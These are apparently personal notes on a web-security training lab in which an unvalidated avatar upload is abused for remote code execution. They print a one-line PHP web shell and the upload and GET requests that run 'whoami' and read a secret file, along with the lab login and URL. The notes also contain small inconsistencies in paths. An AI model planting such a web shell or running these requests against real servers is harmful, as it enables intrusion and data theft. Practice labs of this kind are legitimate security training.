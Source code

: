 # Remote code execution via web shell upload

This lab contains a vulnerable image upload function. It doesn't perform any validation on the files users upload before storing them on the server's filesystem.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: `wiener:peter`

---

![[Pasted image 20240718051705.png]]

**hx6KcE4nc4fQodG5GuNBOPYQR0S40feDhx6KcE4nc4fQodG5GuNBOPYQR0S40feD**

```php
<?php echo system($_GET['command']); ?>
```

- Usage: Navigate to file upload location
- Modify URL: `/files/avaters/simple-cmdshell.php?command=whoami`

---

# Notes
## Lab1:
Remote code execution via web shell upload

login:
wiener:peter

shell:
```php
<?php echo system($_GET['command']); ?>
```

## Goal:
To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file /home/carlos/secret

## Analysis:

### Part one - Upload File
upload file post request:
POST /my-account/avatar
	- no restrictions

address:
https://0a500063044e5843a18ce8a0006c0086.web-security-academy.net/my-account

response:
The file avatars/simple-cmdshell.php has been uploaded

### Part 2 - Execute Code
- navigate to directory
exploit get request:
GET /files/avatars/simple-cmdshell.php HTTP/2

address:
https://0a500063044e5843a18ce8a0006c0086.web-security-academy.net/files/avatars/simple-cmdshell.php

GET /files/avatars/simple-cmdshell.php?command=cat+/home/carlos/secret
## Solution:

POST /my-account/avatar/simple-cmdshell.php

GET /files/avatars/simple-cmdshell.php?command=cat+/home/carlos/secret

